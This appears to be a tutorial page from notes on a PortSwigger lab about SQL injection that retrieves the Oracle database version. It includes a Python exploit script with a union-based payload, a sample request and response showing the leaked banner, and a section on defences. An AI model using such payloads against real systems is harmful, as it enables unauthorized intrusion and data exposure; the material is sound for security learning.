

## Implementing SQL Injection Exploits

Let's delve into the practical aspects of implementing SQL Injection exploits, specifically focusing on querying the database type and version on Oracle.

### Setting Up the Environment

Before diving into the exploitation process, ensure your environment is properly configured for debugging. This includes setting up a proxy to intercept and analyze HTTP requests.

#### Proxy Configuration

A proxy like Burp Suite is essential for debugging and analyzing HTTP traffic. To set up the proxy, you need to configure your script to send requests through the proxy.

```python
import requests

proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

response = requests.get('http://example.com', proxies=proxies)
```

### Creating the Exploit Function

The exploit function `exploit_sql_version` will be responsible for querying the database type and version. This function takes the URL as an argument and constructs the necessary SQL payload.

#### Function Definition

```python
def exploit_sql_version(url):
    path = '/filter?category='
    sql_payload = "' UNION SELECT banner FROM v$version --"
    full_url = url + path + sql_payload
    response = requests.get(full_url, proxies=proxies, verify=False)
    
    if "Oracle" in response.text:
        return True
    else:
        return False
```

### Explanation of the Code

- **Path Construction**: The `path` variable contains the endpoint where the SQL injection will be performed.
- **SQL Payload**: The `sql_payload` is designed to exploit the SQL Injection vulnerability. The payload uses a union-based approach to retrieve the `banner` field from the `v$version` view, which contains information about the Oracle database version.
- **Full URL Construction**: The `full_url` combines the base URL with the path and the SQL payload.
- **HTTP Request**: The `requests.get` method sends the GET request to the constructed URL. The `proxies` dictionary ensures that the request is sent through the proxy.
- **Response Analysis**: The function checks if the response contains the string "Oracle". If it does, the function returns `True`, indicating that the database version was successfully retrieved. Otherwise, it returns `False`.

### Full HTTP Request and Response

Here is a complete example of the HTTP request and response:

```http
GET /filter?category='%20UNION%20SELECT%20banner%20FROM%20v$version%20-- HTTP/1.1
Host: example.com
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Proxy-Connection: keep-alive

HTTP/1.1 200 OK
Date: Mon, 01 Jan 2024 00:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234
X-Powered-By: PHP/7.4.3
Vary: Accept-Encoding
Connection: close

<!DOCTYPE html>
<html>
<head>
<title>Example Page</title>
</head>
<body>
<h1>Oracle Database 12c Enterprise Edition Release 12.1.0.2.0 - 64bit Production</h1>
</body>
</html>
```

### Diagramming the Process

A mermaid diagram can help visualize the flow of the SQL Injection attack:



### Common Pitfalls

When implementing SQL Injection exploits, several common pitfalls can arise:

- **Improper Input Validation**: Failing to validate user input can lead to successful SQL Injection attacks.
- **Missing Error Handling**: Without proper error handling, the application may leak sensitive information through error messages.
- **Proxy Configuration**: Incorrect proxy configuration can result in missed debugging opportunities.

### How to Prevent / Defend Against SQL Injection

#### Secure Coding Practices

- **Parameterized Queries**: Use parameterized queries to separate SQL logic from user input.
- **Input Validation**: Validate and sanitize all user input to prevent malicious SQL code from being executed.
- **Least Privilege Principle**: Ensure that database accounts used by the application have the minimum necessary privileges.

#### Example of Secure Code

Compare the insecure code with the secure version:

**Insecure Code**

```python
query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
```

**Secure Code**

```python
query = "SELECT * FROM users WHERE username = %s AND password = %s"
cursor.execute(query, (username, password))
```

#### Detection and Prevention

- **Web Application Firewalls (WAF)**: Deploy WAFs to detect and block SQL Injection attempts.
- **Regular Audits**: Conduct regular security audits and penetration testing to identify and mitigate SQL Injection vulnerabilities.
- **Security Training**: Educate developers about secure coding practices and the risks associated with SQL Injection.

### Practice Labs

For hands-on practice with SQL Injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers comprehensive modules on SQL Injection, including detailed exercises and challenges.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing various web security techniques, including SQL Injection.
- **DVWA (Damn Vulnerable Web Application)**: Provides a variety of web application vulnerabilities, including SQL Injection, for educational purposes.

By thoroughly understanding and practicing the concepts covered in this chapter, you can effectively defend against SQL Injection attacks and ensure the security of your web applications.

---
<!-- nav -->
[[Web Security (PortSwigger)/02-SQL Injection/08-Lab 7 SQL injection attack querying the database type and version on Oracle/02-SQL Injection Overview|SQL Injection Overview]] | [[Web Security (PortSwigger)/02-SQL Injection/08-Lab 7 SQL injection attack querying the database type and version on Oracle/00-Overview|Overview]] | [[04-Querying Database Type and Version|Querying Database Type and Version]]
